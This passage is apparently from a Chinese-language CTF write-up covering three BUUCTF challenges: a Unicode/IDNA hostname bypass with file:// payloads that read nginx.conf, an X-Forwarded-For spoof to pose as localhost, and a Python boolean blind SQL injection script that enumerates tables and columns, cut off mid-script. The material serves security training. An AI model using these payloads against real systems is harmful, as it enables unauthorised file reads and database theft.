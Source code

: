 ```python
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

进行了三次判断，最后一次过了之后才会执行读取文件的操作。

问题就出现在第二次和第三次判断的中间：`newhost.append(h.encode('idna').decode('utf-8'))`

所以在第三个必须等于suctf.cc

可用payload：

```
file://suctf.cℭ/usr/local/nginx/conf/nginx.conf
file://sucⓉf.cc/usr/local/nginx/conf/nginx.conf
```

# 0x35.[MRCTF2020]PYWebsite

看源码发现有前段的验证(没卵用)，flag.php进去之后提示

```
<h1>拜托，我也是学过半小时网络安全的，你骗不了我！</h1><p>我已经把购买者的IP保存了，显然你没有购买</p><p>验证逻辑是在后端的，除了购买者和我自己，没有人可以看到flag</p><a href="index.html" >还不快去买</p><
```

真正的验证在后端。

购买者和自己，可以伪造成本地访问，加X-Forwarded-For头得到flag

# 0x36.[极客大挑战 2019]FinalSQL(盲注)

依次点12345，然后测试id=6的时候返回`Clever! But not this table.`，7以上报error

注入点在id，过滤了一部分内容，盲注，直接上脚本：

```python
import requests
import time

url = 'http://b392895c-24a8-4369-9d79-e4d112a0d249.node4.buuoj.cn:81/search.php?id='
i = 0
flag = ''
while True:
    i += 1
    # 从可打印字符开始
    begin = 32
    end = 126
    tmp = (begin + end) // 2
    while begin < end:
        #print(begin, tmp, end)
        time.sleep(0.1)
        # 爆数据库:geek
        # payload = "''or(ascii(substr(database(),%d,1))>%d)" % (i, tmp)
        # 爆表: F1naI1y,Flaaaaag
        #payload = "''or(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.tables)where(TABLE_SCHEMA=database())),%d,1))>%d)" % (i, tmp)
        # 爆字段
        # F1naI1y: id,username,password
        # Flaaaaag:id,fl4gawsl
        # payload = "''or(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='Flaaaaag')),%d,1))>%d)" % (i, tmp)
        # 爆flag 要跑很久
```